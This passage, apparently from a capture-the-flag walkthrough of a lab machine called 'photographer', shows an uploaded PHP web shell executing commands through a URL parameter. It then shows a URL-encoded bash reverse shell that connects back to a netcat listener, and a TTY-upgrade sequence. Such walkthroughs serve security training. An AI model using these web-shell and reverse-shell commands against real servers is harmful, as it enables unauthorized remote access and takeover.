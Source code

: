 ![](/assets/images/photographer/screenshot-6.png)

As we can see our malicious PHP code was uploaded and we can execute system commands.

```console
root@kali:~$ curl -s http://192.168.179.164:8000/storage/originals/bc/b3/image.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We set up a netcat listener and run the following curl request.

```console
root@kali:~$ curl -s http://192.168.179.164:8000/storage/originals/bc/b3/image.php?cmd=$(urlencode -m '/bin/bash -c "bash -i >& /dev/tcp/192.168.179.1/443 0>&1"')
```

We have a shell with www-data privileges, and upgraded it to a full tty shell, as shown below:

```console
script -qc /bin/bash /dev/null
Ctrl + z
stty raw -echo;fg
export SHELL=/bin/bash
```

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.164] 46838
bash: cannot set terminal process group (1192): Inappropriate ioctl for device
bash: no job control in this shell
www-data@photographer:/var/www/html/koken/storage/originals/bc/b3$ script -qc /bin/bash /dev/null
<www/html/koken/storage/originals/bc/b3$ script -qc /bin/bash /dev/null
www-data@photographer:/var/www/html/koken/storage/originals/bc/b3$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443
columns 164otographer:/var/www/html/koken/storage/originals/bc/b3$ stty rows 39  
www-data@photographer:/var/www/html/koken/storage/originals/bc/b3$
```
